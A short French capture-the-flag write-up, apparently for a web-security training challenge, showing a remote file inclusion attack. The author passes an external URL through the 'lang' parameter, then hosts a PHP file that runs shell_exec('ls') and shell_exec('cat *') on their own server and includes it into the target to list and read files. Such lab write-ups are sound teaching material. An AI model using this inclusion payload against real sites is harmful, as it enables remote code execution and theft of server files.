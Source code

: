 ## Remote

Ahah, je sais que je vais devoir injecter du code malicieux pour bypass les sécurités mises en places !

Pour tester on peut injecter ça dans l'url

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://www.google.com
```
![remote image](remote.PNG "gooooooooooooooogle")


Maintenant faisons notre injection php

```PHP
<?php
echo shell_exec("ls");
echo shell_exec("cat *");
?>
```

je commence par créer un fichier php qui exécute la commande **ls un cat pour voir le contenu des fichiers**
je upload ce fichier sur mon super serveur dans le but d'injecter ce code malicieux hehe.

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://media.alors-la.center/s/0vyufe2p.php
```

![remote image](remote2.PNG "flaaaaaaaaag")



